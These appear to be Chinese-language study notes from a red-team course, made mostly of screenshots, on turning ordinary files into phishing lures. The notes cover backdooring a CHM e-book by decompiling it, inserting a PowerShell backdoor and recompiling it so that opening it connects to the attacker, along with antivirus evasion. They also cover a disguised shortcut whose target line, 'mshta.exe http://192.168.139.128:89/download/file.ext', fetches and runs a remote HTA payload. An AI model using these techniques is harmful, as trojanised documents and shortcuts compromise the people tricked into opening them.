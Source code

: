 

#### 电子书

12 min      .CHM  后缀       利用电子书实现无文件上线。利用的是Web投递在电子书中插入

![image-20241226213009850](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241226213009850.png)

编译刚才的html文件为电子书：

![image-20241226214236297](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241226214236297.png)

这里是需要对刚才的powershell命令进行免杀处理

运行生成的chm文件后成功上线：

![image-20241226213815024](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241226213815024.png)

20min  电子书 是用来解释的，用途类似和readme.md一样，用工具将器反编译出来，在将后门语句插入，在编译出来，然后一打开电子书就执行我们的后门语句。

电子书也比较容易免杀

![image-20241226220516656](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241226220516656.png)

用工具反编译：

![image-20241226220651157](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241226220651157.png)

可以看出来反编译后的和原来的 chm  框架一样：

![image-20241226221229644](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241226221229644.png)

然后将反编译后的index.html修改：

![image-20241226230427249](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241226230427249.png)

在将更改后的html文件保存后将整个x64dbg文件进行编译生成CHM：

![image-20241226230933825](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241226230933825.png)

运行生成的chm，成功上线：

![image-20241226230917063](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241226230917063.png)



电子书大概这是这样，正常反编译后修改，加载自己的后门代码，反返回成chm，执行上线

#### 快捷方式：

31min hta文档   这里注意，做成的快捷方式的图标最好选用电脑自带的（我的电脑图标），假使目标电脑上没有你图标上的软件，那么就会显示异常或者空白，有两处需要做免杀：1、远程调用执行的命令，2、远程下载的后门文件

先生成一个hta文档。文件托管可以用cs作为服务器来实现远程下载，就跟python -http.server 服务开个端口让远程下载一样：

![image-20241226231436584](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\image-20241226231436584.png)

C:\Windows\System32\mshta.exe http://192.168.139.128:89/download/file.ext   放到快捷里面的目标：
